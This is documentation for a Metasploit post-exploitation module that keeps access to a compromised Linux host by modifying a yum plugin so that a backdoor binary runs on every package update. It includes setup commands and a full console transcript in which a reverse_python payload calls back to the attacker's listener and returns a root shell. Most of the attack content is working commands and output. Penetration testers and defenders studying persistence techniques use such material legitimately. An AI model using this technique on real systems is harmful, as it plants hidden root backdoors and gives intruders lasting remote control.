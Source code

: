 ## Description

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. Module modifies a yum plugin to
launch a binary of choice. grep -F 'enabled=1' /etc/yum/pluginconf.d/
will show what plugins are currently enabled on the system.

## Verification Steps

1. Exploit a box that uses Yum 
2. `use linux/local/yum_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs yum update the payload will launch.  You must set handler accordingly.

## Options

**BACKDOOR_NAME**
Name of backdoor executable
 
**PLUGIN**
Name of the yum plugin to target 
  
**WritableDir**
Writable directory for backdoor default is (/usr/local/bin/)       

**PluginPath**
Plugin path to use default is (/usr/lib/yum-plugins/)

## Scenarios

### Tested on Fedora 21

```
msf5 exploit(linux/local/yum_package_manager_persistence) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell x86/linux               172.22.222.136:4444 -> 172.22.222.135:43790 (172.22.222.135)

msf5 exploit(linux/local/yum_package_manager_persistence) > set session 1
session => 1
msf5 exploit(linux/local/yum_package_manager_persistence) > set plugin langpacks
plugin => langpacks
msf5 exploit(linux/local/yum_package_manager_persistence) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf5 exploit(linux/local/yum_package_manager_persistence) > exploit

[*] /usr/lib/yum-plugins/langpacks.py
[+] Plugins are enabled!
[*] Attempting to modify plugin
[*] Backdoor uploaded to /usr/local/bin/z9fJTx2wVg
[*] Backdoor will run on next Yum update
msf5 exploit(linux/local/yum_package_manager_persistence) > [*] Command shell session 2 opened (172.22.222.136:4444 -> 172.22.222.135:43791) at 2019-04-30 06:21:12 -0500

msf5 exploit(linux/local/yum_package_manager_persistence) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell x86/linux               172.22.222.136:4444 -> 172.22.222.135:43790 (172.22.222.135)
  2         shell cmd/unix                172.22.222.136:4444 -> 172.22.222.135:43791 (172.22.222.135)

msf5 exploit(linux/local/yum_package_manager_persistence) > sessions -i 2
[*] Starting interaction with 2...

id    
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux localhost.localdomain 3.17.4-301.fc21.x86_64 #1 SMP Thu Nov 27 19:09:10 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 172.22.222.135 - Command shell session 2 closed.
msf5 exploit(linux/local/yum_package_manager_persistence) > 
```

Note: Session 2 is received after running yum update on the remote host.
